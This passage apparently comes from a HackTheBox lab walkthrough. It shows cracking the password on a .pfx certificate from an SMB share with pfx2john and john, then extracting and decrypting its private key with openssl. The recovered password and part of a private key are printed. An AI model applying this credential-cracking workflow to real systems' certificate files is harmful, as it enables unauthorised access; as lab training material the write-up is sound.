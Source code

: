 Given the `pfx` file, let's extract private key using `openssl`.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.pem   
Enter Import Password:
```

Since it's also asking password, I need to extract hash from it.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.pfx2john
```

Then, let's crack it.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx2john 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 ASIMD 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:01:24 DONE (2024-12-23 07:09) 0.01179g/s 38110p/s 38110c/s 38110C/s thyriana..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The cracked value is `thuglegacy`.

### Use extracted certificate and private key

Let's use this to extract `pfx`'s private key again.
(I need to set PEM pass phrase here)

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

I successfully extract private key.
Now I have to decrypt it.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
Enter pass phrase for legacyy_dev_auth.key-enc:
writing RSA key
                                                                           
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ ls
legacyy_dev_auth.key      legacyy_dev_auth.pfx       winrm_backup.zip2john
legacyy_dev_auth.key-enc  legacyy_dev_auth.pfx2john
legacyy_dev_auth.pem      winrm_backup.zip
                                                                           
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ cat legacyy_dev_auth.key    
-----BEGIN PRIVATE KEY-----
MIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQClVgejYhZHHuLz
TSOtYXHOi56zSocr9om854YDu/6qHBa4Nf8xFP6INNBNlYWvAxCvKM8aQsHpv3to
pwpQ+YbRZDu1NxyhvfNNTRXjdFQV9nIiKkowOt6gG2F+9O5gVF4PAnHPm+YYPwsb
oRkYV8QOpzIi6NMZgDCJrgISWZmUHqThybFW/7POme1gs6tiN1XFoPu1zNOYaIL3
dtZaazXcLw6IpTJRPJAWGttqyFommYrJqCzCSaWu9jG0p1hKK7mk6wvBSR8QfHW2
```